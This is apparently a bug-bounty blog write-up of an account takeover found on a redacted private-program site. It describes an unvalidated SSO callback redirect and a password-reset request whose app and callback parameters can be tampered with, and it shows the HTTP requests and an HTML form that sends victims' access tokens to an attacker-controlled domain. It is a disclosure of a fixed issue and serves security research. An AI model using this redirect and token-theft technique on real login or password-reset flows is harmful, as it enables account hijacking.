 ```yaml
---
layout: post
title: From Unvalidated Redirect and Parameter Tampering to Account Takeover
excerpt: "In this simple write-up, I would like to tell how I found an Account Takeover vulnerability with a unique method. There's no special or unique bypass thing. Just try to find another exploitation way."
tags: [bug hunting, hacking, unvalidated redirect, parameter tampering, account takeover]
categories: [bug hunting]
comments: true
image:
  feature: 5ee3bc3a3226da3dc1a3f88671451018.png
---
```



بسم الله الرحمن الرحيم

In this simple write-up, I would like to tell how I found an Account Takeover vulnerability with a unique method. There's no special or unique bypass thing. Just try to find another exploitation way.

>Because this is a Private Program, all Endpoint names, parameters, and part of the information displayed here is not the real name. This was made to give readers an idea to make it easier to understand the contents of this paper.

Some time ago, I did a Bug Hunting activity on a website based application. The site has several subdomains, each of which has different functions. This website uses SSO as an authentication scheme to make it easier for users to access each of the existing subdomains.

**I. Unvalidated Redirect**

When accessing different subdomains, there is a `Login Button` which when the user clicks, the user will send a request like the following:

```
POST /ssoLogin HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 123
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Accept-Encoding: gzip, deflate

action=login&app=app.name&callback=https://app.redacted.com/callback
```

Then the user will be directed to the subdomain URL along with access token on it.

Example:

```
https://app.redacted.com/callback?token=uaJfJi8hlNFCPSiKmjWO
```

This request can be manipulated by changing the value of the `callback` parameter to `app.redacted.com.attacker.com.` The attacker can steal user tokens by diverting callbacks to websites controlled by the attacker and creating simple malicious HTML like this:

```html
<html>
	<body>
		<form method="POST" action="https://redacted.com/ssoLogin">
			<input type="hidden" name="action" value="login"/>
			<input type="hidden" name="app" value="app.name"/>
			<input type="hidden" name="callback" value="https://app.redacted.com.attacker.com/callback"/>
			<input type="submit" value="Submit">
		</form>
	</body>
<html>
```

Sending `malicious links` to victims is boring, so I tried to find another way to trigger the request.

**II. Parameter Tampering**

After browsing through some of the features of the application, I found something interesting about the password reset function. When the user resets the password, then the user will be asked to enter his email address, but when making an intercept request, several other parameters are sent, not just email.

```
POST /resetPassword HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 123
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Accept-Encoding: gzip, deflate

action=resetpass&app=null&callback=null
```

There are similar parameters that are sent when logging into another subdomain when using SSO, it's `app` and `callback`.

So I tried to change the value the same as the previous request:

```
app=app.name&callback=https://app.redacted.com.attacker.com/callback
```

Surprisingly, I received an email to request a password with a URL like this:

```
https://redacted.com/resetPassword?token=uaJfJi8hlNFCPSiKmjWO&app=app.name&callback=https://app.redacted.com.attacker.com/callback
```

After entering a new password, the user will automatically be redirected to the login process along with the parameters listed in the URL. Of course, because the `callback` parameter has been manipulated, the user will be directed to the attacker's website along with its access token.

Attack Flow:

![Attack Flow](/assets/ba62970936fbee1b8f84b6fd8dc9fb24.png)

Attacker will receive a request on his server with user's token on it.

![Attacker's Side](/assets/f3abb86bd34cf4d52698f14c0da1dc60.jpg)

I report this issue through Bugcrowd.

```
Timeline:

2019-10-17: Report Sent
2019-10-17: Report Triaged
2019-10-25: $4,500 Bounty Awarded
2020-03-03: Fixed
```

